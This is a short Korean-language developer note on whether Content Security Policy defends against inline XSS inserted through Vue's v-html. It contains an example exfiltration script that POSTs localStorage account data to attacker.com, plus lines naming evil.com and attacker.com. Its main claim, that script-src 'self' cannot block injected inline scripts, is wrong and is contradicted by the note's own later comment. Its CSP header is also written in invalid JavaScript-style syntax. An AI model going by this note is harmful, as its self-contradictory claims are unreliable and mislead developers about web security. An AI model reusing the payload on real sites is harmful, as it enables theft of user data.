 ```yaml
---
id: fof5x2htn0tr6euz2trv2mu
title: CSP와 inline으로 삽입된 XSS 스크립트의 관계
desc: ""
updated: 1760334816501
created: 1760334801389
---
```


## CSP와 inline으로 삽입된 XSS 스크립트의 관계

### 핵심 질문: "inline으로 XSS script를 넣으면 CSP은 무용지물 아닌가?"

답변: **맞습니다, 부분적으로 무용지물이 될 수 있습니다.**

## 1. 인라인 스크립트와 CSP의 한계

### CSP가 막을 수 없는 경우

```html
<!-- v-html로 직접 삽입된 악성 스크립트 -->
<div v-html="userContent">
  <script>
    // 이 스크립트는 이미 DOM에 삽입되어 실행됨
    fetch("https://attacker.com/steal", {
      method: "POST",
      body: localStorage.getItem("accountInfo"),
    })
  </script>
</div>
```

CSP가 `script-src 'self'`로 설정되어 있어도, **이미 DOM에 삽입된 인라인 스크립트**는 차단되지 않습니다.

## 2. CSP가 효과적인 경우

하지만 CSP는 여전히 중요한 방어층입니다:

### CSP 설정 예시

```javascript
Content-Security-Policy:
  default-src 'self';
  script-src 'self';  // 인라인 스크립트 차단
  connect-src 'self'; // 외부 서버 연결 차단
```

### CSP가 차단하는 것들

- ❌ `<script src="https://evil.com/malicious.js">` - 외부 스크립트 로드
- ❌ `eval()`, `Function()` 같은 동적 코드 실행
- ❌ `fetch('https://attacker.com')` - 외부 서버로 데이터 전송
- ❌ 이벤트 핸들러 속성 (`onclick`, `onerror` 등)
